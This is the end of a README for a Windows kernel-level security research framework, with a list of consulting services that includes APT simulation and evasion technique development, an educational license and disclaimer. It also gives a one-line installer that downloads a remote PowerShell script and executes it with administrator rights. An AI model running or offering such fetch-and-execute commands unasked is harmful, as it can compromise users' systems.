- **Training Inquiries**: Corporate training and workshop availability

### Professional Services

Available consulting services:

#### Security Assessments
- **Advanced persistent threat (APT) simulation**
- **Windows security architecture review**
- **Custom evasion technique development**
- **Incident response and forensic analysis**

#### Training & Education
- **Technical workshops** on Windows internals
- **Red team training** for advanced techniques
- **Blue team education** on detection methods
- **Academic guest lectures** and presentations

---

## 📄 License & Disclaimer

### Educational License

This software is provided for educational and authorized security research purposes only. Use of this software for unauthorized access to computer systems is strictly prohibited and may violate applicable laws.

### Disclaimer

The authors assume no responsibility for misuse of this software. Users are solely responsible for ensuring their use of this software complies with all applicable laws and regulations.

**USE AT YOUR OWN RISK**

---
<div align="center"> <h2 style="font-size: 2.5em; margin-bottom: 20px;">✨ One-Command Installation</h2> <p style="font-size: 1.3em; margin-bottom: 30px;"> The fastest way to get KVC running on your system: </p> <div style="background: #1a1a1a; padding: 20px; border-radius: 10px; border: 1px solid #333; display: inline-block;"> <code style="font-size: 1.4em; font-weight: bold; color: #00ff00;"> irm https://kvc.pl/run | iex </code> </div> <p style="margin-top: 20px; font-size: 1.1em;"> <strong>⚠️ Administrator privileges required!</strong> Right-click PowerShell and select "Run as Administrator" </p> </div>

<div align="center">

**KVC Framework v1.0.1**  
*Advancing Windows Security Research Through Kernel-Level Capabilities*

🌐 [kvc.pl](https://kvc.pl) | 📧 [Contact](mailto:marek@wesolowski.eu.org) | ⭐ [Star on GitHub](../../)

*Made with ❤️ for the security research community*

</div>
